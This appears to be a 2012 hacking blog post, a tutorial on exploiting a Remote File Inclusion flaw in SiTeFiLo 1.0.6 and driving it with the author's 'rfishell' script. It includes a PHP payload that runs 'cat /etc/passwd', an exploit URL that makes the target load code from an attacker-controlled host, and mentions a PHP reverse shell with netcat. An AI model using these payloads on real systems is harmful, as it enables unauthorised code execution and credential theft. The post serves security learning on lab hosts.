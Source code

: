 ```yaml
---
layout: post
title: "Let's kick shell-ish, Part 2: Remote File Inclusion shell"
date: 2012-06-26 18:10:26 -0400
comments: true
categories: hacking coding
alias: /2012/06/lets-kick-shell-ish-part-2-remote-file.html
---
```


In [Part 1](/2012/06/21/lets-kick-shell-ish-part-1-directory-traversal-made-easy/), we talked about getting a shell-like interface when attacking a target vulnerable to directory traversals. We continue with an article on exploiting Remote File Inclusion (RFI) attacks with a shell.

<!--more-->

Typically if you can find an RFI vulnerability, then you can get it to execute a reverse web shell and you're all done. So what's this article about? In some cases, you may encounter a target that has some serious egress filtering enabled, and you can't find an outgoing port to connect back to your netcat instance. Or maybe you don't want to use a reverse shell for whatever reason. Rather than having to manually edit your RFI file to run commands on the target, we'll create a shell-ish interface to make the hacking experience a little more pleasant.

Let's have a look at a basic RFI example. We've discovered a target running the Simple Text-File Login script (SiTeFiLo). Version 1.0.6 is vulnerable to RFI attacks, as detailed in this advisory: [http://www.securityfocus.com/bid/32811/](http://www.securityfocus.com/bid/32811/)

![](/images/2012-06-26/01.png)

According to the advisory, we can specify the location of our own header.inc.php and have the target execute our PHP code. Let's test this. We create a /var/www/header.inc.php.txt file with the following contents:

```
<?php 
print system("cat /etc/passwd");
?>
```

We craft our URL as follows, which will load our header.inc.php.txt into the target and have it execute cat /etc/passwd for us:

```
http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/
```

When we load up that URL on the browser, we see our command get executed, and the contents of /etc/passwd displayed on the screen:

![](/images/2012-06-26/02.png)

Now that we've verified that we can run commands on the server, we grab our PHP reverse shell, rename it to header.inc.php.txt, fire up netcat to listen for connections, refresh the browser, and... nothing.

![](/images/2012-06-26/03.png)

Well as it turns out, this particular target we're attacking only allows inbound and outbound connections on port 80, and blocks everything else. One alternative around this is to host the PHP reverse shell elsewhere, and have netcat listen on port 80 for connections. If this isn't possible, or you don't want to have a reverse shell, here's one possible solution to simplify command execution on the target, without having to modify the PHP file manually.

I call it rfishell for lack of a better term. Much like dirtshell from Part 1 of this post, rfishell provides a shell-ish interface for you to work on, allowing quick command entry and a clean output. Let's check it out. The command we'll use is

```
rfishell -f /var/www/header.inc.php.txt -u "http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/"
```

This tells rfishell to use /var/www/header.inc.php.txt as our PHP file containing the commands we want to run, and the target URL. When we hit Enter, rfishell presents us with a prompt. We'll enter the command

```
cat /etc/passwd
```

and see the results displayed to us:

![](/images/2012-06-26/04.png)

We can enter commands one after another, as if we were logged into the server with a shell:

![](/images/2012-06-26/05.png)

The script itself is very minimal, but definitely expandable. By default, it uses PHP, but you can modify the rfi_template function to tailor it for ASP, JSP, or whatever else. The script requires curl, so make sure you have that installed. You can get the latest version of rfishell from [GitHub](https://github.com/superkojiman/rfishell). 

The script only takes two parameters, the location of the file that will contain the commands to run, and the target URL. Commands you enter on the prompt are turned into PHP code and saved into the file specified with -f, and curl is used to retrieve the results.

Quick and simple; the way shell scripts should be.
